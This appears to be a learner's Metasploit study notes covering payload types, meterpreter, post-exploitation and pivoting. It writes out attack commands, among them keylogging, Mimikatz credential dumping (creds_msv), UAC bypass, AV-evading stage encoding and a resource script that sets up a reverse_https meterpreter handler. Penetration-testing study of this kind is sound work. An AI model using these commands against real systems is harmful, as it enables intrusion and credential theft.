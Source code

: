 #post-exploitation frameworks include Core Impact, Cobalt Strike and PowerShell #Empire. 

# Metasploit user interfaces and setup
1. msf relies on a *postgresql* service that needs to be started using **systemctl start postgresql**.  Then you can enable it at boot using **systemctl enable postgresql** 
2. Next, create and initialize the #msfDatabase using **msfdb init**.  Remember to update this often as msf is often updated (**apt update; apt install metasploit-framework**)

## msf Syntax 

## msf DB access

## Auxiliary #modules

Modules all follow a common slash-delimited hierarchical syntax (***module type/os, vendor, app, or protocol/module name***)

- Use the **show auxiliary** command to list all auxiliary modules.  you can also use the **search** function, complete with GoogleDorks..

# Exploit modules
Can use the **check** command to verify whether or no thte target host and application are vulnerable to a given exploit

# msf payloads
## Staged versus non-staged

### Staged (/)
A #staged payload is sent in two parts.  The first part contains a small primary payload that causes the victim machine to connect back to the attacker, transfer a larger secondary payload containing the rest of the shellcode, and then execute it.

This type of payload is useful if : 
- The vulnerability we are exploiting does not have enough buffer space to hold a full payload
- AV evasion, as the shellcode is retrieved later and injected directly into the victim machine's #memory.

### Non-staged ( _ ) 
A #non-staged payload is sent in its entirety along with the exploit.

## #meterpreter payloads
Meterpreter is a mutli-function payload that cae dynamically extended at run-time, making it a more function-rich tool than a regular command shell. 

Useful commands include **sysinfo**, **getuid**, **upload**, **download**, and **shell** 

## msf exploit #multi/handler
Works for all single- and multi-stage payloads.  When using the **use multi/handler** option, you must set a payload type !

When running the exploit, use the **exploit -j** flag to run the module as a #background job.

## Client-side attacks
Review executable #formats with teh **msfvenom -l formats** command.

## Advanced features and transports
show advanced options using teh **show advanced** command.
Common features include #stageEncoding
- **set EnableStageEncoding true**
	- **set StageEncoder x86/shikata_ga_nai** 
- **set AutoRunScript windows/gather/enum_logged_on_users** 
- Use the **background** command to return to the msfconsole prompt.  List all available #sessions wiht **sessions -l** and jump back into a session with **sessions -i** (interact) followed by hte respective session ID.

# Building our own msf module

# Post-ex with msf
This includes gathering information, gaining persistence, and pivoting.

## Core #post-exploitation features
Available from meterpreter : 
- **screenshot** 
- #keylogger
	- **keyscan_start**, **keyscan_dump**, **keyscan_stop**
	- Must take into account the context of the current meterpreter session.  In order to capture key strokes from a regular user, we will have to #migrate our shell process to the user context we are targeting.

## Process #migration
Use the **migrate** command to move the execution of meterpreter to a different process. Do this by running **ps** to see all the running processes, then picking one and issuing the **migrate** command.

## #Post-exploitation modules
#UAC bypass
- If the target user is a member of the local administrators group, we can elevate our shell to a high integrity level if we bypass #UAC

We can also load extensions directly inside the active session wiht the **load** command - 
- notably, the #PowerShell extension enables the use of PowerShell (**load powershell**, followed by **help powershell**)

Mimikatz also has an implemention of a meterpreter extension.  Run it using **load kiwi** from the meterpreter session.  
- Use the **getsystem** command to acquire system privs from our current high-integrity shell, then dump the system creds with **creds_msv**

## #Pivoting with msf
The most basic way to do this is to use the **route add** command to create a path to the alternate internal network subnet, as well as the session ID this route applies to (**route add 192.168.1.0/24 11**).
- once this is done ,you can enumerate this internal network using the **portscan/tcp** module
- As an alternative to adding routes manually, we can use the **autoroute** #post-exploitation module, which can set up pivot routes through an existing meterpreter session automatically.

# Metasploit automation
Metasploit can achieve even further automation by leveraging Metasploit #resourceScripts .
- use a standard editor to create a script in the home directory.  For this example, **setup.rc**. 
	``use exploit/multi/handler ``
	``set PAYLOAD windows/meterpreter/reverse_https ``
	``set LHOST 10.11.0.4`` 
	``set LPORT 443 ``
	``set EnableStageEncoding true ``
	``set StageEncoder x86/shikata_ga_nai ``
	``set AutoRunScript post/windows/manage/migrate``
	``set ExitOnSession false`` 
	``exploit -j -z``
- After saving the script, we can execute it by passing the **-r** flag to **msfconsole** (**sudo msfconsole -r setup.rc**)